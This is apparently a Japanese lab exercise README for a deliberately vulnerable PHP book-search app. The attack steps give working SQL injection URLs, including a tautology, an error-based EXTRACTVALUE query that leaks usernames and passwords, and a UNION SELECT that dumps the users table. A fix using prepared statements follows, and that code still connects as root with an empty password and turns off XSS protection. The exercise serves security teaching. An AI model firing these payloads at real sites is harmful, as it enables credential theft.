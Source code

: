## 演習

### アプリケーションの起動

以下のコマンドをターミナルで実行してみましょう。

```bash
docker-compose up
```

### アプリケーションの概要

このアプリケーションでは`search.php`の後に`?author=example`のような形で著者名による書籍データベース検索をします。
authorのパラメータに設定された文字列をそのままチェック等一切なしでSQL文に組み込んでいるため、SQLインジェクションができてしまいます。

正常な実行結果の例としては`https://<擬似ブラウザに表示されているドメイン>/search.php?author=Atabasca`を実行してみてください。

### 攻撃

1. `https://<擬似ブラウザに表示されているドメイン>/search.php?author='+OR+'a'='a` というURLでauthorパラメータを設定してアクセスする。
2. 実行された結果として、著者名に関係なく書籍データベースが取得できてしまう。
3. `https://<擬似ブラウザに表示されているドメイン>/search.php?author='+AND+EXTRACTVALUE(0,(SELECT+CONCAT('$',username,':',password)+FROM+users+LIMIT+0,1))+%23`というURLで同様にアクセスする。
4. 実行された結果、エラーメッセージとして`Unknown XPATH variable at: '$guest:...'`という形で、同じデータベースの別のテーブルとして入っているusername/passwordの組を取得できてしまう。
5. `https://<擬似ブラウザに表示されているドメイン>/search.php?author='+UNION+SELECT+username,password,NULL,NULL+FROM+users--+%60`というURLで同様にアクセスする。
6. 今度はテーブルの「ID」の欄にusername、「タイトル」の欄にpasswordが表示される形でテーブルusersの内容全部が取得できてしまう。

### 攻撃の対策

search.phpをプレースホルダを使うように書き換えることで脆弱性をなくすことができます。具体的には最初のデータベースをアクセスする部分は以下のように書き換えます。

```php
<?php
    session_start();
    header("X-XSS-Protection: 0;");
    $author = $_GET['author'];
    try {
        $options = array(PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION,
            PDO::MYSQL_ATTR_MULTI_STATEMENTS => false,
            PDO::ATTR_EMULATE_PREPARES => false);
        $dbname = 'mysql:host=' . $_ENV['DATABASE_HOST'] . ';dbname=sampledb;charset=utf8mb4';
        $dbh = new PDO($dbname, 'root', '', $options);
        $sqlcode = "SELECT * FROM booklist WHERE author = ? ORDER BY id";
        $result = $dbh->prepare($sqlcode);
        $result->bindValue(1, $author, PDO::PARAM_STR);
        $result->execute();
?>
```
